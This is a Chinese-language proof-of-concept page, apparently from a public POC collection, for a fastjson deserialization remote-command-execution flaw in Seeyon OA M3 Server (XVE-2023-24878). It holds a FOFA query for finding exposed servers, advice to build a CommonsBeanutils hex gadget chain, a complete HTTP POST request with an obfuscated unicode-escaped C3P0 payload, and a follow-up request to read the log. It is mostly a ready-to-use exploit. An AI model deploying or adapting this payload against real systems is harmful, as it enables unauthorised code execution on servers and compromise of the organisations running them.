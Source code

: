 
## 致远OA M3 Server 反序列化漏洞
致远 M3 反序列化 远程命令执行漏洞（XVE-2023-24878）
漏洞信息：
https://x.threatbook.com/v5/vul/6bf25402a41b4fc27497a5b42a8421d7ef38d57cb7d8143dedb9a6f438310a2d9e083c39c56fee2571651827b4d9ce8d



## fofa
```
"M3-Server 已启动"
```

根据群友说，这个漏洞是fastjson反序列化

利用 CB1 生成 hex 反序列化数据，替换 POC 中的 HEX

## poc
```
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```
然后再 Get 访问/mobile_portal/api/systemLog/pns/loadLog/app.log

![ef21d114d1965815537db98570d2daf7](https://github.com/wy876/POC/assets/139549762/b3609c72-0516-4c69-a64f-62c86fffb30d)

## 漏洞分析
```
https://mp.weixin.qq.com/s/czbhaf7jpNmgjAt-OFWmIA
```
